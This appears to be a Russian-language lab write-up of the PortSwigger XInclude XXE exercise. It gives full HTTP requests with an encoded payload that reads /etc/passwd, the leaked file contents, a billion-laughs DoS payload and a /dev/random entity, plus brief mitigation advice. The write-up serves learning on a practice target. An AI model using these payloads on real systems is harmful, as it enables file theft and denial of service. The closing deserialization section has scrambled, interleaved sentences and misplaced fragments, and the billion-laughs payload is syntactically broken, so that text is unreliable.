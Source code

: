 ## XInclude in XXE attack

#### > В общих чертах: как работает, зачем нужен

XXE (или вставка внешних сущностей XML) - уязвимость, позволяющая злоумышленнику вмешиваться в обработку XML-данных веб-приложений (сайтов) при их отправке на сервер. Чаще всего используется для просмотра файлов в файловой системе сервера приложений, а так же других серверов или внешних систем, к которым приложение может получить доступ. Результат уязвимости можно посмотреть в ответе приложения (response). Так же возможно осуществление DoS атак (например уязвимость 'Denial-of-Service').

<i>Чтобы выполнить атаку <b>XInclude</b>, необходимо указать пространство имен XInclude и путь к файлу, содержимое которого требуется получить</i>

---

##### > Разберу по шагам пример того, как работает данная уязвимость

Открою ссылку на лабу из практической работы
> https://portswigger.net/web-security/xxe/lab-xinclude-attack

Нам дано:

- Есть некий сайт с товарами
- По товарам можно посмотреть детализацию (кнопка 1)
- В детализации можно проверить наличие товара в разных магазинах (кнопка 2)

Рассмотрю запрос по кнопке 2 (наличие товара в магазинах)

<b>Запрос 1</b>

~~~
POST /product/stock HTTP/1.1
Host: 0a9700f203ced1b4c026723800b50012.web-security-academy.net
Cookie: session=QZMMaj22B268131231nL1AmaboxdzxV
Origin: https://0a9700f203ced1b4c026723800b50012.web-security-academy.net
Accept: */*
Referer: https://0a9700f203ced1b4c026723800b50012.web-security-academy.net/product?productId=2
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip, deflate
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.5060.53 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Length: 21

productId=2&storeId=1
~~~

В запросе, как минимум, 2 изменяемых параметра.
~~~
productId=2
storeId=1
~~~

Подставлю в значение параметр productId текст из [примера](https://gist.github.com/jakekarnes42/effe052f1095532cda84307024b3d512) к практической работе
~~~
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo> 
~~~

Теперь текст <b>запроса 1</b> будет выглядеть так (все спец. символы из текста выше заменены кодами):

~~~
POST /product/stock HTTP/1.1
Host: 0a9700f203ced1b4c026723800b50012.web-security-academy.net
Cookie: session=QZMMaj22B268131231nL1AmaboxdzxV
Origin: https://0a9700f203ced1b4c026723800b50012.web-security-academy.net
Accept: */*
Referer: https://0a9700f203ced1b4c026723800b50012.web-security-academy.net/product?productId=2
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip, deflate
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.5060.53 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Length: 21

productId=%3cfoo%20xmlns%3axi%3d%22http%3a%2f%2fwww%2ew3%2eorg%2f2001%2fXInclude%22%3e%3cxi%3ainclude%20parse%3d%22text%22%20href%3d%22file%3a%2f%2f%2fetc%2fpasswd%22%2f%3e%3c%2ffoo%3e%20&storeId=1
~~~

Теперь выполню (отправлю на сервер) <b>запрос 1</b> и посмотрю ответ сервера (response):

Обычный удачный ответ от сервера выглядит так, но это не наш случай:

~~~
HTTP/1.1 200 OK
Content-Type: text/plain; charset=utf-8
Connection: close
Content-Length: 3

456
~~~

<b>Ответ сервера при атаке XInclude:</b>

~~~
HTTP/1.1 400 Bad Request
Content-Type: application/json; charset=utf-8
Connection: close
Content-Length: 1279

"Invalid product ID: root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
peter:x:12001:12001::/home/peter:/bin/bash
carlos:x:12002:12002::/home/carlos:/bin/bash
user:x:12000:12000::/home/user:/bin/bash
elmer:x:12099:12099::/home/elmer:/bin/bash
academy:x:10000:10000::/academy:/bin/bash
messagebus:x:101:101::/nonexistent:/usr/sbin/nologin
dnsmasq:x:102:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin"
~~~

Как видим, это содержимое файла <b>/etc/passwd</b>

---

##### > Причина возникновения уязвимости

Практически все уязвимости XXE возникают из-за того, что библиотека синтаксического анализа XML-приложения поддерживает потенциально опасные функции XML, которые приложению по сути не нужны или не предназначены для использования.
Самый простой и эффективный способ предотвратить атаки XXE — отключить эти функции.
Как правило, достаточно отключить разрешение внешних сущностей и отключить поддержку XInclude.
Обычно это можно сделать с помощью параметров конфигурации или программного переопределения поведения по умолчанию.

---

##### > "Отказ в обслуживании" (Denial-of-Service)

<b>Пример 1</b>
Пример атаки состоит из определения 10 сущностей, каждая из которых определяется как состоящая из 10 предыдущих сущностей, с документом, состоящим из одного экземпляра наибольшей сущности, которая расширяется до одного миллиарда копий первой сущности

[Описание атаки (wiki)](https://en.wikipedia.org/wiki/Billion_laughs_attack)

~~~
POST http://somesite.com/xml HTTP/1.1
<?xml version="1.0" ?>
<!DOCTYPE lolz [
    <!ENTITY lol "lol">
    <!ELEMENT lolz (#PCDATA)>
    <!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;
    <!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">
    <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
    <!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
    <!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
    <!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
    <!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
    <!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
    <!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
<foo>
  &lol9;
</foo>
~~~

![здесь могла быть картинка](https://i.stack.imgur.com/hYnmH.png)

<b>Пример 2</b>
Злоумышленник пытается вызвать отказ в обслуживании, используя потенциально бесконечный файл:

~~~
<!ENTITY xxe SYSTEM "file:///dev/random" >]>
~~~


---
##### > Атаки на механизм сериализации/десериализации, приводящие к частичному или полному отказу в обслуживании

Небезопасная десериализация (Insecure Deserialization) - это уязвимость, при которой злоумышленник внедряет вредоносный объект в приложение при передаче сериализованных данных, что часто приводит к удаленному выполнению кода, обходу пути, повышению привилегий, обходу аутентификации и многому другому

<b>Пример 1</b>
Приложение на React обращается к микросервисам Функциональные программисты, пытаясь сделать код на Spring иммутабельным Boot. , пересылают состояние пользователя для каждого запроса ( Злоумышленник замечает сигнатуру Javaсериализуя объектов " R00" его для передачи). и использует инструмент Serial Killer Пример для выполнения кода на сервере приложения

<b>Пример 2</b>
Форум на PHP использует сериализацию объектов PHP Java для создания супер cookie, a:4 содержащей ID пользователя, его роль, хеш пароля и другое состояние:

~~~
{i:0;i:132;i:1;s:7:"Mallory";i:2;s:4:"user"; i:3;s:32:"b6a8b3bea87fe0e05022f8f3c88bc960";}
~~~

Злоумышленник меняет состояние объекта для получения высоких привилегий a:4:

~~~
{i:0;i:1;i:1;s:5:"Alice";i:2;s:5:"admin"; i:3;s:32:"b6a8b3bea87fe0e05022f8f3c88bc960";}
~~~
